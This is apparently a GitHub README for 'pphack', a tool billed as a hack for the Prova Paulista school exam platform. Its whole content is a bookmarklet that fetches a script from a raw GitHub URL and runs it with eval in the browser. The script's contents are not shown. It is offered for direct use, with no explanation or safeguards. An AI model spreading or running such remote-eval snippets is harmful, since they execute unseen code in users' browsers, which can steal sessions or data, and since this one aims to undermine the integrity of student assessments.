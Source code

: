 # pphack
Hack de Prova Paulista 

```js
javascript:fetch("https://raw.githubusercontent.com/KeyzerCR/pphack/refs/heads/main/hackx.js").then(t=>t.text()).then(eval);
```
